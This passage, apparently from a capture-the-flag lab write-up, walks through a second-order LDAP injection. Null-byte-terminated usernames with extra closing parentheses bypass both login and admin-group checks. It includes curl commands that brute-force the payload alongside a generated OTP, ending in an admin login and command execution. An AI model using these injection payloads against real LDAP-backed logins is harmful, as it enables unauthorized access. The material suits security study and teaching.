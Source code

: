 

Then I can try to use null bytes to do this second order injection. If I
provide `ldapuser))%00`, the queries will be:



    login: (&(uid=ldapuser))%00)(pager=*))
    admin: (&(uid=ldapuser))%00)(group='Admin'))



Since the null truncates:



    login: (&(uid=ldapuser))
    admin: (&(uid=ldapuser))



That input will get both queries to return my user!

### Exploit Second Order Ldap Injection

I showed an example where I needed one closing `)`. But I don't know
that number. I'll just test with differing numbers of closing
parentheses. The query that's being run on the server is likely more
complex than what I guessed above, so more maybe needed to balance
things out.

I'll use curl, and look for a 302 redirect, which happens on successful
login:



    root@kali# curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser%2529%2500&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302
    root@kali# curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser%2529%2529%2500&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302
    root@kali# curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser%2529%2529%2529%2500&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302
    < HTTP/1.1 302 Found



On submitting the username `ldapuser)))%00`, `curl` returns a redirect.
I'll try it in Firefox, submitting `ldapuser%29%29%29%00` and the
current OTP, and it logs in!

Even better, when I run a command, I get results. `id`:

![](/img/1549820880477.png)
